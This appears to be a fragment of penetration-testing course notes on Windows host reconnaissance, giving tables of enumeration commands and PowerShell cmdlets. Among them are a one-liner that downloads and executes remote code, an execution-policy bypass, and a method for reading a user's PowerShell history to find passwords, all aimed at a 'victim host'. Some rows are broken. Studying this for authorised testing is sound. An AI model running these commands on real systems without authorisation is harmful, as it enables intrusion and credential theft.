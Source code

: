       - [Logical Operators](#Logical\Operators)


## Env Commands For Host & Network Recon

First, we'll cover a few basic environmental commands that can be used to give us more information about the host we are on.

#### Basic Enumeration Commands

|**Command**|**Result**|
|---|---|
|`hostname`|Prints the PC's Name|
|`[System.Environment]::OSVersion.Version`|Prints out the OS version and revision level|
|`wmic qfe get Caption,Description,HotFixID,InstalledOn`|Prints the patches and hotfixes applied to the host|
|`ipconfig /all`|Prints out network adapter state and configurations|
|`set`|Displays a list of environment variables for the current session (ran from CMD-prompt)|
|`echo %USERDOMAIN%`|Displays the domain name to which the host belongs (ran from CMD-prompt)|
|`echo %logonserver%`|Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)|


# PS Cmd-Lets

|**Cmd-Let**|**Description**|
|---|---|
|`Get-Module`|Lists available modules loaded for use.|
|`Get-ExecutionPolicy -List`|Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.|
|`Set-ExecutionPolicy Bypass -Scope Process`|This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.|
|`Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`|With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.|
|`Get-ChildItem Env: \| ft Key,Value`|Return environment values such as key paths, users, computer information, etc.|
|`powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"`|
#### Downgrade Powershell

  Downgrade Powershell

```powershell-session
PS C:\htb> Get-host
```

 The primary place to look is in the `PowerShell Operational Log` found under `Applications and Services Logs > Microsoft > Windows > PowerShell > Operational`. All commands executed in our session will log to this file. The `Windows PowerShell` log located at `Applications and Services Logs > Windows PowerShell` is also a good place to check. An entry will be made here when we start an instance of PowerShell.
